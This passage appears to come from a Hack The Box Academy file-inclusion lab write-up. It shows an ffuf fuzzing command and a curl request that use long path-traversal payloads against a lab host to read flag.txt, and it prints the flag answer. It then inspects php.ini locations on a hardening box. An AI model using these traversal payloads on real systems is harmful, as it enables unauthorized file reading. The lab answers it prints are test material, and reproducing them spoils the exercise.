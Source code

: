 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://83.136.253.217:45907/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ/index.php' -fs 2309,1935

[SNIP]

var/www/html/           [Status: 200, Size: 351022763, Words: 72880354, Lines: 10210292, Duration: 76ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ curl -s http://83.136.253.217:45907/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt | grep 'HTB'

HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
```

**Answer**

```
HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
```

## File Inclusion Prevention

### Questions

#### Question #09

What is the full path to the `php.ini` file for Apache?

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ssh htb-student@10.129.186.252

htb-student@10.129.186.252's password: 

Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)
htb-student@lfi-harden:~$ 
```

```
htb-student@lfi-harden:/var/www/html$ php --ini

Configuration File (php.ini) Path: /etc/php/7.4/cli
Loaded Configuration File:         /etc/php/7.4/cli/php.ini

htb-student@lfi-harden:/var/www/html$ ls -l /etc/php/7.4/cli

total 76
drwxr-xr-x 2 root root  4096 Nov  6  2020 conf.d
-rw-r--r-- 1 root root 72539 Oct  6  2020 php.ini

htb-student@lfi-harden:/var/www/html$ ls -l /etc/php/7.4/apache2/

total 76
drwxr-xr-x 2 root root  4096 Nov  6  2020 conf.d
-rw-r--r-- 1 root root 72941 Oct  6  2020 php.ini
```
